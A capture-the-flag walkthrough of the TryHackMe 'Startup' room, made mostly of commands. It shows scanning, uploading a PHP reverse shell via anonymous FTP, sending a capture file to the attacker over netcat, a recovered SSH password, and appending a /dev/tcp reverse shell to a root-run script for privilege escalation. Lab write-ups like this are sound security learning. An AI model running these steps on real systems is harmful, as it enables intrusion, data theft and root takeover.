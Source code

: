 # Startup

**Room Link:** [https://tryhackme.com/room/startup](https://tryhackme.com/room/startup)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (401).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (402).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

Anonymous login is enabled

**Kali**

```
ftp $VICTIM
binary
passive
mget *
```

<figure><img src="../../.gitbook/assets/image (403).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (404).png" alt=""><figcaption></figcaption></figure>



### TCP/21 - FTP

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```

<figure><img src="../../.gitbook/assets/image (405).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ftp $VICTIM
binary
passive
cd ftp
put php-reverse-shell.php 
```

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (406).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > suspicious.pcapng
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < suspicious.pcapng
```

### Wireshark

Followed the TCP stream and just kept changing it until something came up. Eventually we find lennies password.

**Kali**

```
wireshark &
```

<figure><img src="../../.gitbook/assets/image (408).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
ssh lennie@$VICTIM
Password: c4ntg3t3n0ughsp1c3
```

<figure><img src="../../.gitbook/assets/image (409).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (410).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

There is a script in lennies directory that is owned by root. We can't make any changes to that script but it calls another script which we do have access to so I add a reverse shell and wait for it to be called.

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
echo 'sh -i >& /dev/tcp/10.10.195.128/1338 0>&1' >> /etc/print.sh
```

<figure><img src="../../.gitbook/assets/image (411).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (412).png" alt=""><figcaption></figcaption></figure>













